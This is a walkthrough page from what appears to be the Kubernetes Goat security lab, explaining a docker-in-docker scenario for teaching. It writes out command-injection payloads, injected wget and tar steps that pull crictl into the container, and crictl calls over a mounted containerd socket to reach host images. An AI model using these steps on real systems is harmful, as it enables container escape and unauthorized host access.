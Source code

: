 ```yaml
---
title: ⎈ DIND (docker-in-docker) exploitation
sidebar_label: Welcome
sidebar_position: 2
description: Learn how to exploit Docker IN Docker socket in containers - Kubernetes Goat Scenario 🚀
slug: docker-in-docker-exploitation-in-kubernetes-containers/welcome
---
```


# ⎈ DIND (docker-in-docker) exploitation

## 🙌 Overview

In this scenario, we will be focusing on the common and standard ways how to build systems and pipelines that leverage container sockets to create, build and run containers from the underlying container runtime. This has been exploited since the early days of the container ecosystem and even today we see these misconfigurations/use cases in the real world. 

![Scenario 2](../images/scenario-2.png)

By the end of the scenario, we will understand and learn the following

1. You will learn to test and exploit the container UNIX socket misconfigurations
2. Able to exploit container and escape out of the docker container
3. Learn common misconfigurations in pipelines and CI/CD build systems

### ⚡️ The story

Most of the CI/CD and pipeline systems use the underlying host container runtime to build containers for you within the pipeline by using something called DIND (docker-in-docker) with a UNIX socket. Here in this scenario, we try to exploit this misconfiguration and gain access to the host system of the worker node by escaping out of the docker container.

:::info

- To get started with the scenario, navigate to [http://127.0.0.1:1231](http://127.0.0.1:1231)

:::

![Scenario 2 welcome](../images/sc-2-1.png)

### 🎯 Goal

The goal of this scenario is to escape out of the running docker container to the host system where the container is running and able to access and perform actions on other container running on the same node.

:::tip

If you can able to obtain container images in the host system then you have completed this scenario. But definitely, you can advance beyond this exploitation as well by performing post-exploitation.

:::

### 🪄 Hints & Spoilers

<details>
  <summary><b>✨ Do you know how to run multiple commands in Linux? </b></summary>
  <div>
    <div>The application running here has command injection vulnerability. You can exploit this by using the <b>;</b> delimiter when passing the input 🙌</div>
  </div>
</details>

<details>
  <summary><b>✨ Able to run system commands, not sure how to access containers? </b></summary>
  <div>
    <div>Identify the mounted UNIX socket volume, and use the crictl binary to communicate with that with <b>-r</b> flag 🎉</div>
  </div>
</details>

## 🎉 Solution & Walkthrough

### 🎲 Method 1

- By looking at the application functionality and dabbling with the input and output, we can see it has standard command injection vulnerability. Assuming it's running in a Linux container we can use the `;` delimiter to run/pass other commands

```bash
127.0.0.1; id
```

![Scenario 2 Command Injection](../images/sc-2-2.png)

- As we can see it returns the response for the `id` command, now we can analyze the system and see what potential information we can obtain

- It contains `containerd.sock` mounted into the file system as it's not available commonly in standard systems

```bash
; mount
```

![Scenario 2 mount](../images/sc-2-3.png)

- Wow! we can see the `/custom/containerd/containerd.sock` mounted in the file system and assuming it's mounted from the host system we need to talk to it for communicating with the UNIX socket

:::tip

We can use multiple methods for communicating with the `containerd.sock` UNIX socket. Some of them include [crictl binary](https://github.com/kubernetes-sigs/cri-tools/blob/master/docs/crictl.md), or a simple `curl` program as well.  

:::

- Next we can download the `crictl` static binary from the internet [https://github.com/kubernetes-sigs/cri-tools/releases](https://github.com/kubernetes-sigs/cri-tools/releases). In order to determine which binary we need, we can run the following command for system discovery

```bash
;uname -a
```

- We can examine the output to determine our system architecture and OS, then download the appropriate binary to the container. For example, if our target system is a x86\_64 Linux box, we can use the following command

```bash
;wget https://github.com/kubernetes-sigs/cri-tools/releases/download/v1.27.1/crictl-v1.27.1-linux-amd64.tar.gz -O /tmp/crictl-v1.27.1.tar.gz
```

- We can extract the binary from the `crictl-v1.27.1.tgz` file so that we can use that to talk to the UNIX socket

```bash
;tar -xvf /tmp/crictl-v1.27.1.tar.gz -C /tmp/
```

![Scenario 2 extract binary](../images/sc-2-4.png)

- Now we can access the host system by running the following crictl commands with passing `containerd.sock` UNIX socket

```bash
;/tmp/crictl -r unix:///custom/containerd/containerd.sock images
```

![Scenario 2 list host images](../images/sc-2-6.png)

- Hooray 🥳 , now we can see that it has a lot of container images in the host system. We can now use different crictl commands to gain more access and further exploitation

:::tip

You can do the analog steps with  `ctr` and interact with the containerd runtime. `crictl` shows you containers as visible in kubernetes. `ctr` shows also additional containers, such as kubernetes hidden pause containers.
:::